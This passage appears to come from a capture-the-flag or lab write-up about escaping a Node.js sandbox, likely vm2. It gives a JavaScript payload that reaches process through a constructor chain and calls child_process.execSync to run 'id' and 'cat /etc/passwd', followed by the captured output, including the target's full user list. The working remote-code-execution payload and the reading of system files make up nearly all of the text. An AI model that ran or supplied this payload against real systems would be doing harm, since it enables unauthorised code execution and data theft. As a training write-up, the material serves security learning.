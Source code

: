 ![image](https://hackmd.io/_uploads/HJ_P5g9ET.png)


### 3. Node.js exe JavaScript (execSync)
#### (1) command=id
```node.js=26
c.constructor('return process')().mainModule.require('child_process').execSync('id');
```
![image](https://hackmd.io/_uploads/Sknnq6u4T.png)
> uid=1001(svc) gid=1001(svc) groups=1001(svc)

#### (2) cat /etc/passwd
```node.js=26
c.constructor('return process')().mainModule.require('child_process').execSync('cat /etc/passwd');
```
![image](https://hackmd.io/_uploads/S1_NiadNT.png)
> root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin: x:2:2:bin:/bin:/usr/sbin/nologin
sys: x:3:3:sys:/dev:/usr/sbin/nologin
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/usr/sbin/nologin
man: x:6:12: man:/var/cache/man:/usr/sbin/nologin
lp: x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail: x:8:8:mail:/var/mail:/usr/sbin/nologin
news: x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp: x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy: x:13:13:proxy:/bin:/usr/sbin/nologin
www-data: x:33:33:www-data:/var/www:/usr/sbin/nologin
backup: x:34:34:backup:/var/backups:/usr/sbin/nologin
list: x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc: x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody: x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt: x: 100:65534::/nonexistent:/usr/sbin/nologin
systemd-network: x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve: x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus: x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync: x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate: x:105:1::/var/cache/pollinate:/bin/false
sshd: x:106:65534::/run/sshd:/usr/sbin/nologin
syslog: x:107:113::/home/syslog:/usr/sbin/nologin
uuidd: x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump: x:109:115::/nonexistent:/usr/sbin/nologin
tss: x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape: x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux: x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd: x:999: 100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq: x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
joshua: x:1000:1000:,,,:/home/joshua:/bin/bash
svc: x:1001:1001:,,,:/home/svc:/bin/bash
fwupd-refresh: x:114:122:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel: x:998:998::/var/log/laurel:/bin/false
